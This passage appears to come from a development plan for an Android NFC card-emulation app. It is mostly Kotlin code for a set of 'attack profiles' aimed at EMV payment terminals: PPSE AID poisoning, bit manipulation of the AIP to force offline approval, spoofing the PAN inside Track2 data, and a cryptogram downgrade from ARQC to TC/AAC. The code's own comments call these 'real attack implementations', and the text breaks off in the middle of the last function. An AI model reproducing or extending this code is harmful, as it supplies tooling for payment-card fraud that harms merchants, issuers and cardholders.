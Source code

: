 ```kotlin

    fun setAttackProfile(profile: AttackProfile) {
        activeProfile = profile
    }

    fun setEmulatedCard(card: EmvCardData) {
        emulatedCard = card
    }

    fun processSelectPpse(command: ByteArray): ByteArray {
        return when (activeProfile) {
            AttackProfile.PPSE_POISONING -> EmulationProfiles.ppsePoisoning(command, emulatedCard)
            AttackProfile.STANDARD_EMULATION -> EmulationProfiles.standardEmulation(command, emulatedCard)
            else -> EmulationProfiles.standardEmulation(command, emulatedCard)
        }
    }
}
```

### **2.2 Attack Profile Engine** `[Priority: HIGH]`
**Location**: `/android-app/app/src/main/java/com/example/nfsp00f/attacks/`

```kotlin
// EmulationProfiles.kt - Real attack implementations
object EmulationProfiles {

    fun ppsePoisoning(command: ByteArray, card: EmvCardData?): ByteArray {
        // Real PPSE AID manipulation attack
        val originalAids = listOf("A0000000031010", "A0000000041010") // VISA, MasterCard
        val poisonedAids = listOf("A0000000041010", "A0000000031010") // Swapped order

        return constructPpseResponse(poisonedAids)
    }

    fun aipForceOffline(command: ByteArray, card: EmvCardData?): ByteArray {
        // Manipulate AIP to force offline approval
        val originalAip = card?.applicationInterchangeProfile ?: byteArrayOf(0x00, 0x00)
        val modifiedAip = originalAip.clone()

        // Set offline approval bits (bit manipulation for real attack)
        modifiedAip[0] = (modifiedAip[0].toInt() or 0x40).toByte() // Set SDA supported
        modifiedAip[1] = (modifiedAip[1].toInt() and 0xFE).toByte() // Clear online required

        return constructAipResponse(modifiedAip)
    }

    fun track2Spoofing(command: ByteArray, card: EmvCardData?): ByteArray {
        // Real Track2 data manipulation
        val originalTrack2 = card?.track2Data ?: "4154904674973556D2902101000000000000"

        // Spoof PAN while maintaining Luhn checksum
        val spoofedPan = "4000000000000002" // Test card number
        val spoofedTrack2 = originalTrack2.replaceRange(0, 16, spoofedPan)

        return constructTrack2Response(spoofedTrack2)
    }

    fun cryptogramDowngrade(command: ByteArray, card: EmvCardData?): ByteArray {
        // Force cryptogram type manipulation (ARQC -> TC/AAC)
        val originalCryptogram = card?.applicationCryptogram ?: byteArrayOf()
        val originalCid = card?.cryptogramInformationData ?: byteArrayOf(0x40)

```